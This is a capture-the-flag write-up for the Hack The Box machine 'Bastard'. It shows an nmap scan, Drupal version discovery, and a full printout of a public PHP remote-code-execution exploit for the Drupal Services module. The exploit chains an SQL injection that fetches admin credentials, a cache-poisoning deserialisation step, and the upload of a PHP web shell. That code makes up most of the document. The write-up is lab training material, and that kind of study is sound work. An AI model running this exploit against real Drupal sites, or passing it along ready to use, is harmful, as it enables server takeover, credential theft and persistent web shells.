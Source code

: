 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php
<code>
<br>#!/usr/bin/php
<br><?php
<br># Drupal Services Module Remote Code Execution Exploit
<br># https://www.ambionics.io/blog/drupal-services-module-rce
<br># cf
<br>#
<br># Three stages:
<br># 1. Use the SQL Injection to get the contents of the cache for current endpoint
<br>#    along with admin credentials and hash
<br># 2. Alter the cache to allow us to write a file and do so
<br># 3. Restore the cache
<br># </p>

<p># Initialization</p>

<p>error_reporting(E_ALL);</p>

<p>define('QID', 'anything');
<br>define('TYPE_PHP', 'application/vnd.php.serialized');
<br>define('TYPE_JSON', 'application/json');
<br>define('CONTROLLER', 'user');
<br>define('ACTION', 'login');</p>

<p>$url = <font color="53E100">'http://10.10.10.9'</font>;
<br>$endpoint_path = <font color="53E100">'/rest'</font>;
<br>$endpoint = 'rest_endpoint';</p>

<p>$file = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'filename' => 'dixuSOspsOUU.php',
<br>    'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
<br>];</p>

<p>$browser = new Browser($url . $endpoint_path);</p>


<p># Stage 1: SQL Injection</p>
<M
<p>class DatabaseCondition
<br>{
<br>    protected $conditions = [
<br>        "#conjunction" => "AND"
<br>    ];
<br>    protected $arguments = [];
<br>    protected $changed = false;
<br>    protected $queryPlaceholderIdentifier = null;
<br>    public $stringVersion = null;</p>

<p>    public function __construct($stringVersion=null)
<br>    {
<br>        $this->stringVersion = $stringVersion;</p>

<p>        if(!isset($stringVersion))
<br>        {
<br>            $this->changed = true;
<br>            $this->stringVersion = null;
<br>        }
<br>    }
<br>}</p>

<br>class SelectQueryExtender {
<br>    # Contains a DatabaseCondition object instead of a SelectQueryInterface
<br>    # so that $query->compile() exists and (string) $query is controlled by us.
<br>    protected $query = null;

<br>    protected $uniqueIdentifier = QID;
<br>    protected $connection;
<br>    protected $placeholder = 0;

<br>    public function __construct($sql)
<br>    {
<br>        $this->query = new DatabaseCondition($sql);
<br>    }
<br>}

<br>$cache_id = "services:$endpoint:resources";
<br>$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
<br>$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

<br># Take first user but with a custom password
<br># Store the original password hash in signature_format, and endpoint cache
<br># in signature
<br>$query = 
<br>    "0x3a) UNION SELECT ux.uid AS uid, " .
<br>    "ux.name AS name, '$password_hash' AS pass, " .
<br>    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
<br>    "ux.pass AS signature_format, ux.created AS created, " .
<br>    "ux.access AS access, ux.login AS login, ux.status AS status, " .
<br>    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
<br>    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
<br>    "WHERE ux.uid<>(0"
<br>;

<br>$query = new SelectQueryExtender($query);
<br>$data = ['username' => $query, 'password' => 'ouvreboite'];
<br>$data = serialize($data);

<br>$json = $browser->post(TYPE_PHP, $data);

<br># If this worked, the rest will as well
<br>if(!isset($json->user))
<br>{
<br>    print_r($json);
<br>    e("Failed to login with fake password");
<br>}

<br># Store session and user data

<br>$session = [
<br>    'session_name' => $json->session_name,
<br>    'session_id' => $json->sessid,
<br>    'token' => $json->token
<br>];
<br>store('session', $session);

<br>$user = $json->user;

<br># Unserialize the cached value
<br># Note: Drupal websites admins, this is your opportunity to fight back :)
<br>$cache = unserialize($user->signature);

<br># Reassign fields
<br>$user->pass = $user->signature_format;
<br>unset($user->signature);
<br>unset($user->signature_format);

<br>store('user', $user);

<br>if($cache === false)
<br>{
<br>    e("Unable to obtains endpoint's cache value");
<br>}

<br>x("Cache contains " . sizeof($cache) . " entries");

<br># Stage 2: Change endpoint's behaviour to write a shell

<br>class DrupalCacheArray
<br>{
<br>    # Cache ID
<br>    protected $cid = "services:endpoint_name:resources";
<br>    # Name of the table to fetch data from.
<br>    # Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
<br>    protected $bin = 'cache';
<br>    protected $keysToPersist = [];
<br>    protected $storage = [];

<br>    function __construct($storage, $endpoint, $controller, $action) {
<br>        $settings = [
<br>            'services' => ['resource_api_version' => '1.0']
<br>        ];
<br>        $this->cid = "services:$endpoint:resources";

<br>        # If no endpoint is given, just reset the original values
<br>        if(isset($controller))
<br>        {
<br>            $storage[$controller]['actions'][$action] = [
<br>                'help' => 'Writes data to a file',
<br>                # Callback function
<br>                'callback' => 'file_put_contents',
<br>                # This one does not accept "true" as Drupal does,
<br>                # so we just go for a tautology
<br>                'access callback' => 'is_string',
<br>                'access arguments' => ['a string'],
<br>                # Arguments given through POST
<br>                'args' => [
<br>                    0 => [
<br>                        'name' => 'filename',
<br>                        'type' => 'string',
<br>                        'description' => 'Path to the file',
<br>                        'source' => ['data' => 'filename'],
<br>                        'optional' => false,
<br>                    ],
<br>                    1 => [
<br>                        'name' => 'data',
<br>                        'type' => 'string',
<br>                        'description' => 'The data to write',
<br>                        'source' => ['data' => 'data'],
<br>                        'optional' => false,
<br>                    ],
<br>                ],
<br>                'file' => [
<br>                    'type' => 'inc',
<br>                    'module' => 'services',
<br>                    'name' => 'resources/user_resource',
<br>                ],
<br>                'endpoint' => $settings
<br>            ];
<br>            $storage[$controller]['endpoint']['actions'] += [
<br>                $action => [
<br>                    'enabled' => 1,
<br>                    'settings' => $settings
<br>                ]
<br>            ];
<br>        }
<br>
<br>        $this->storage = $storage;
<br>        $this->keysToPersist = array_fill_keys(array_keys($storage), true);
<br>    }
<br>}

<br>class ThemeRegistry Extends DrupalCacheArray {
<br>    protected $persistable;
<br>    protected $completeRegistry;
<br>}

<br>cache_poison($endpoint, $cache);

<br># Write the file
<br>$json = (array) $browser->post(TYPE_JSON, json_encode($file));


<br># Stage 3: Restore endpoint's behaviour

<br>cache_reset($endpoint, $cache);

<br>if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
<br>{
<br>    e("Failed to write file.");
<br>}

<br>$file_url = $url . '/' . $file['filename'];
<br>x("File written: $file_url");


<br># HTTP Browser

<br>class Browser
<br>{
<br>    private $url;
<br>    private $controller = CONTROLLER;
<br>    private $action = ACTION;

<br>    function __construct($url)
<br>    {
<br>        $this->url = $url;
<br>    }

<br>    function post($type, $data)
<br>    {
<br>        $headers = [
<br>            "Accept: " . TYPE_JSON,
<br>            "Content-Type: $type",
<br>            "Content-Length: " . strlen($data)
<br>        ];
<br>        $url = $this->url . '/' . $this->controller . '/' . $this->action;

<br>        $s = curl_init(); 
<br>        curl_setopt($s, CURLOPT_URL, $url);
<br>        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
<br>        curl_setopt($s, CURLOPT_POST, 1);
<br>        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
<br>        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
<br>        $output = curl_exec($s);
<br>        $error = curl_error($s);
<br>        curl_close($s);

<br>        if($error)
<br>        {
<br>            e("cURL: $error");
<br>        }

<br>        return json_decode($output);
<br>    }
<br>}

<br># Cache

<br>function cache_poison($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
<br>    cache_edit($tr);
<br>}

<br>function cache_reset($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, null, null);
<br>    cache_edit($tr);
<br>}

<br>function cache_edit($tr)
<br>{
<br>    global $browser;
<br>    $data = serialize([$tr]);
<br>    $json = $browser->post(TYPE_PHP, $data);
<br>}

<br># Utils

<br>function x($message)
<br>{
<br>    print("$message\n");
<br>}

<br>function e($message)
<br>{
<br>    x($message);
<br>    exit(1);
<br>}

<br>function store($name, $data)
<br>{
<br>    $filename = "$name.json";
<br>    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
<br>    x("Stored $name information in $filename");
<br>}</code>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
